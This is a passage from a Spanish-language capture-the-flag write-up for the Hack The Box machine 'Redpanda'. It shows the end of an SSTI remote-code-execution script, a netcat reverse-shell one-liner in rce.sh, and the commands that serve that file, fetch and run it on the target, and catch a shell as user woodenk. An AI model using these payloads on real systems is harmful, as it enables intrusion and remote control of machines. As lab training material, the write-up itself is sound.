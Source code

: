 ```python

        b_response = BeautifulSoup(response.text, 'lxml')
        output = b_response.find(class_='searched')

        print()
        print(output.string.replace('You searched for: ', ''))
    except Exception as e:
        sys.exit(f'[x] {e}')

if __name__ == '__main__':
    make_request()
```

> Puedes encontrar el script en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/blob/main/Auto-tools_Redpanda/ssti/ssti_rce.py)
{: .prompt-info}

Ahora solo pasamos un archivo con una **reverse shell**, luego la ejecutamos, recibiremos la shell del usuario `woodenk` y conseguimos la flag:

```console
❯ cat rce.sh
───────┬─────────────────────────────────────────────────────────────────────────────────
       │ File: rce.sh
───────┼─────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh
   2   │
   3   │ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.88 1234 >/tmp/f
───────┴─────────────────────────────────────────────────────────────────────────────────
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.170 - - [22/Sep/2022 19:21:12] "GET /rce.sh HTTP/1.1" 200 -

─────────────────────────────────────────────────────────────────────────────────────────
❯ python3 ssti_rce.py

[*] Use: python3 ssti_rce.py <command>

❯ python3 ssti_rce.py 'wget http://10.10.14.88/rce.sh'
❯ python3 ssti_rce.py 'bash rce.sh'

─────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.170.
Ncat: Connection from 10.10.11.170:36570.
/bin/sh: 0: can't access tty; job control turned off
$ find / -name user.txt 2>/dev/null | xargs ls -l
-rw-r----- 1 root woodenk 33 Sep 22 04:50 /home/woodenk/user.txt
```
